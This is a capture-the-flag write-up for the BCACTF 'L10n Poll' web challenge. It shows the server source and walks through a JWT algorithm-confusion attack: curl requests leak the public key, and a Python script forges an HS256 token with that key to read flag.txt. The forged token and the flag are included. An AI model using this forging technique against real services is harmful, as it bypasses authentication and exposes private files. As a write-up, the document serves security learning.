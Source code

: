 # L10on Poll | Web

### Solution

From ctf we have got url to website, package.json and server.ts

##### server.js

```js  
import Koa from 'koa';  
import koaStatic from 'koa-static';  
import Router from '@koa/router';  
import jwt from 'jsonwebtoken';  
import {readFileSync} from 'fs';  
import {fileURLToPath} from 'url';  
import {dirname, join} from 'path';  
import bodyParser from 'koa-bodyparser';  
import send from 'koa-send';

const __dirname = dirname(fileURLToPath(import.meta.url));

let yesVotes = 0;  
let noVotes = 0;

const privateKey = readFileSync(join(__dirname, "key.priv"), "utf8");  
const publicKey = readFileSync(join(__dirname, "key"), "utf8");  
const msgs = readFileSync(join(__dirname, "errormessages"),
"utf8").split("\n").filter(s => s.length > 0);  
/** @type {import("./languages.json")} */  
const languages = JSON.parse(readFileSync(join(__dirname, "languages.json"),
"utf8"));

const languageRegex = /^[a-z]+$/;

const app = new Koa();  
const router = new Router();

/**  
* @param {string} language  
* @returns {string}  
*/  
function generateToken(language) {  
   return jwt.sign({language}, privateKey, {algorithm: "RS256"});  
}

router.get("/localisation-file", async ctx => {  
   const token = ctx.cookies.get("lion-token");  
   /** @type {string} */  
   let language;  
   if (token) {  
       const payload = await new Promise((resolve, reject) => {  
           try {  
               jwt.verify(token, publicKey, (err, result) => err ? reject(err) : resolve(result));  
           } catch (e) {  
               reject(e);  
           }  
       });  
       language = payload.language;  
   } else {  
       language = languages[Math.floor(Math.random() * languages.length)].id;  
       ctx.cookies.set("lion-token", generateToken(language));  
   }  
   await send(ctx, language, {root: __dirname});  
});

router.post("/localization-language", async ctx => {  
   const language = ctx.request.body?.language;  
   if (typeof language === "string") {  
       if (language.match(languageRegex)) {  
           ctx.cookies.set("lion-token", generateToken(language));  
       } else {  
           ctx.throw(400, msgs[Math.floor(Math.random() * msgs.length)]);  
       }  
   } else {  
       ctx.throw(400, "no language");  
   }  
   ctx.redirect("/");  
});

router.get("/languages", async ctx => {  
   ctx.body = languages;  
});

router.post("/y", async ctx => {  
   yesVotes++;  
   ctx.body = [yesVotes, noVotes];  
});

router.post("/n", async ctx => {  
   noVotes++;  
   ctx.body = [yesVotes, noVotes];  
});

app.use(bodyParser());  
app.use(router.routes());  
app.use(router.allowedMethods());  
app.use(koaStatic(join(__dirname, "../public")));  
app.listen(1337);  
```

##### package.json

```json  
{  
 "dependencies": {  
   "@koa/router": "^10.0.0",  
   "jsonwebtoken": "^3.2.2",  
   "koa": "^2.13.1",  
   "koa-bodyparser": "^4.3.0",  
   "koa-send": "^5.0.1",  
   "koa-static": "^5.0.0"  
 },  
 "type": "module",  
 "scripts": {  
   "start": "node server.js"  
 }  
}  
```

To get the flag we need to read the content of a flag.txt from server. That
give us the hint that we need to search for some way to read any file from
server. Website have `select language` functionality.  
After quick look at source code of server.js we can see that information about
selected language is stored in cookie as a JWT. In this case to create
signature of JWT server use private key and to verify it layer - public key.  
  

Further, in the code we can see subpage `/localization-language` that
apparently allow us to select our language and return JWT signed with private
key.  
  
Next subpage that is worth attention is `/localisation-file`, because with use
of it we can download file with translations for all provided languages.

```bash  
$ curl "http://web.bcactf.com:49159/localization-language" -X POST -H
"Content-Type:application/json" --data-raw '{"language": "key"}' -c cookie.txt  
```

With command above I sent post request and in return I have got signed JWT
with selected language as "*key*". Request with created JWT to `/localisation-
file` allowed me to download file specified in *language* parameter.

```bash  
$ curl "http://web.bcactf.com:49159/localisation-file" --cookie "lion-
token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzY4MjQwMX0.Dyrr6Z3wWz2pmU5UeY1Xool2LSu5AG8D7tg_N-g8jFtGypXTvLYzQ4fWvmdbkT2S6oL5ptGvlo-8SugaxmX07Gr2Av4aOHnJahIoaCG6zRSqkYIrANJLjPM-
qbX3cEvJZSG2ElC9sW6GKBzFTpIqziSZPUyt_NPn3dBKgW3jxrE"  
```

This request resulted with server public key:

```txt  
-----BEGIN PUBLIC KEY-----  
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCRaHtUpvSkcf2KCwXTiX48Tjxf  
bUVFn7YimqGPQbwTnE0WfR5SxLK/DH0os9jCCeb7pJ08AbHFBzQNUfbg47xI3aJh  
PMdjL/w3iqfc56C7lt59u4TeOYc7kguph/GTYDPDZkgtbkFJmbkbg9MvV723U1PW  
M7N2P4b2Xf3p7ZtaewIDAQAB  
-----END PUBLIC KEY-----  
```

We can't download any file with character other than lower case a-z, because
of regex in `/localisation-language`, but if we could skip this step and sign
JWT by our self this would not be a problem. So I start searching.  
On [jwt.io](https://jwt.io) website, below token editor, I found yellow,
warning rectangle with link to [this article](https://auth0.com/blog/critical-
vulnerabilities-in-json-web-token-libraries/) about vulnerabilities in JWT
token with asymmetric keys.  
  

In article I read about vulnerability in old version of JWT that mislaid
decoder that token was encoded not with rsa key, but with password.  
Because of that I could encode my own JWT with language parameter as a
`flag.txt` and  
encode it with public key. In this case server will try to verify my token by
decoding it with provided to function password - public key.  
  

With that knowledge I wrote small python script to generate JWT:

```py  
import jwt

with open("key.pub", "r") as f:  
   secret = f.read()

encoded_jwt = jwt.encode({"language": "flag.txt", "iat": "1623478547"},
secret, algorithm="HS256")  
print(encoded_jwt)  
```  
Generated JWT:  
```txt  
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoiMTYyMzQ3ODU0NyJ9.wk7fc3wR1gU4cIRs2ZXT0FYC0gLaN0EWkNpyfIWUlpg  
```

### Flag

bcactf{h3_c0mes_Ur74hshR}

#### Credits

- Writeup by [HuntClauss](https://ctftime.org/user/106464)  
- Solved by [HuntClauss](https://ctftime.org/user/106464)  
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + HuntClauss

Original writeup
(https://github.com/HuntClauss/Writeups/blob/main/bcactf/l10n-pool.md).